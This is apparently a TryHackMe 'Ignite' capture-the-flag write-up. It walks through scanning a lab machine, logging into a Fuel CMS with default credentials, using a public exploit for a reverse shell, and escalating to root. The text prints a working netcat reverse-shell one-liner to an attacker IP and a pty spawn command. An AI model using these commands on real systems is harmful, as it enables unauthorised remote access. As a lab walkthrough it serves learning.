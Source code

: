 ```yaml
---
layout: post
title: "Ignite"
author: "Nicholas Coleman"
date: 2025-04-11
tags: tryhackme
---
```


### Info

IP: `10.10.233.34`

### Nmap

![nmap](/security.github.io/images/ignite/first.png)

Website:

![site](/security.github.io/images/ignite/2.png)

Gobuster:

![gobuster](/security.github.io/images/ignite/3.png)

Exploits:

![exploit](/security.github.io/images/ignite/4.png)

Since the admin did not change their default password, it seems I can just login without having to brute force anything, or figure it out. 

The admin page is located at: `http://10.10.233.34/fuel`

This brings me to a CMS, where there is very little information.

I decide to now just try out an exploit I found called FuelCMS which grants me a reverse shell. 

![shell](/security.github.io/images/ignite/8.png)

Bingo!

![bingo](/security.github.io/images/ignite/9.png)

I was able to find the user.txt flag pretty easily. 

Looking around, I was able to find a database file:

![10](/security.github.io/images/ignite/10.png)

Root user found! Now I have to escalate. 

`rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.6.25.18 4242 > /tmp/f`

This spawns a terminal so that I can login to root:

`python -c 'import pty; pty.spawn("/bin/sh")'`

![final](/security.github.io/images/ignite/11.png)

